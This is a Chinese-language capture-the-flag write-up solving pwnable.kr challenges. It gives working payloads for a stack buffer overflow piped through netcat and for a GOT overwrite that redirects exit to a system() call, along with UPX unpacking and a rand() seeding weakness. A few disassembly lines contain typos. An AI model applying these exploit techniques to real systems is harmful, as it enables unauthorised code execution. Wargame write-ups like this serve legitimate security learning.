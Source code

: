 #bof
```
import struct
padding = 'A'*52 #这里不是算的
key_addr = struct.pack("I", 0xcafebabe)
print padding + key_addr
```
重点是确定填充的字节，由func中
0x56555649 <+29>:   lea    eax,[ebp-0x2c]
2C 是 44 填充44个A 再加上addr正好覆盖ebp这个地址，而
0x56555654 <+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
所以只有再加8就正好覆盖了比较的地址，即key的位置。
知道这个之后就可以利用python加管道进行pwn
(python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

#flag
IDA打开之后就看到upx的字符，猜测是upx壳，linux下看了一下，apt安装下upx然后就可以解壳了

#passcode
这题完全不知道怎么做，然后看国外大牛的wp。理解了半天，没懂。
然后自己gdb调试，，忽然想起来，在调用welcome之后和调用login之后，
esp的地址一样，这样因为函数开始的时候都有mov    ebp,esp。
所以ebp(ebp在整个函数初始化指针之后是不会再改变的)就是可以认为是一样的，然后welcome调用结束后的数据并没有清楚，而是留在栈上，栈调用welcome结束后仅仅是把指针调整了，并没有清除数据，所以这里就是可以利用的地方。
然后这个还有个条件，就是scanf("%d", passcode1);IDA逆向出来是__isoc99_scanf("%d");这样程序就会直接读取对应栈上的值
0x70-0x10 = 0x60 = 96。只要有96个就能覆盖passcode1的值
```
welcome:
0x0804862f <+38>:   lea    edx,[ebp-0x70]
0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:    mov    DWORD PTR [esp],eax
0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
login:
0x0804857c <+24>:   mov    edx,DWORD PTR [ebp-0x10]
```
之后就是直接的plt利用了，不过这个也是理解了不少时间，实际上就是call exit的时候，实际上是先执行jmp _exit (_exit就是实际上exit的地址，而采用全局偏移表的方式存储，只要把这个地方改掉就行了。)
```
0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
0x080485de <+122>:   call   0x848450 <puts@plt>
0x080485e3 <+127>:   mov    DW0ORD PTR [esp],0x80487af
0x080485ea <+134>:   call   0x8048460 <system@plt>
```
system("")对应的地址：0x080485d7 = 134514135
0x080485e3
偏移表中exit对应的地址804a018
于是就可以'A'*96 + '\x18\xa0\x04\x08' + '134514135\n'

#random
开始看的rand没有思路，然而，，，如此简单。
rand需要先srand初始化化下时间种子，否则rand的返回值一直固定。然后利用异或的性质，ok

#input
```python
#开始是这样想的
./input `python -c "print 'A '*63 + '\x00 ' + '\x20\x0a\x0d' + ' A'*34"`
#后来发现怎么都不对，虽然程序把\x00当成一个参数了，但是始终找不到它。
```
